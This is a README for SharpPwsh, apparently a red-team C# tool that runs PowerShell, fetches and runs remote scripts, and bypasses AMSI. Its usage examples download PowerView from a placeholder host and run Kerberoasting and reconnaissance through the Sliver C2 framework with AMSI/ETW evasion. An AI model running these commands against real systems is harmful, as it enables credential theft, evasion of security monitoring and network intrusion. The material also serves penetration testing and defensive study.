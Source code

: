# SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            URI to fetch remote script

  -b, --bypass-amsi    Bypass AMSI

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
.\SharpPwsh.exe -c whoami

# load remote script and execute
.\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/SharpPwsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/SharpPwsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Load & execute script from clipboard
- Compression & encryption support for scripts
- Multiple command support

## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.